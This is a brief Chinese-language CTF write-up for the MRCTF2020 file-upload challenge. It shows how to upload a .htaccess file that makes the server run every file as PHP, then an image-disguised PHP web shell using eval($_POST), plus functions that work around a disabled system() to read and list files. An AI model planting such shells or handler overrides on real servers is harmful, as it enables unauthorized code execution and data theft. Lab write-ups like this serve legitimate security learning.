


# [MRCTF2020]你传你🐎呢

## 考点

- **.htaccess**文件
- system函数过滤

## 解题

上传`.htaccess`文件

```
SetHandler application/x-httpd-php
```



上传图片马 shell2.jpg

```php
GIF89a?
<script language="php">eval($_POST['y0lo']);</script>
```

在执行命令的时候 system被禁用

- php可以使用反引号执行命令。echo \`whoami\` （本题不行）
- 可以使用 `readfile('/flag');` 代替 `system(cat /flag)`
- 可以使用 `var_dump(scandir('/'));` 代替 `system('ls /')`

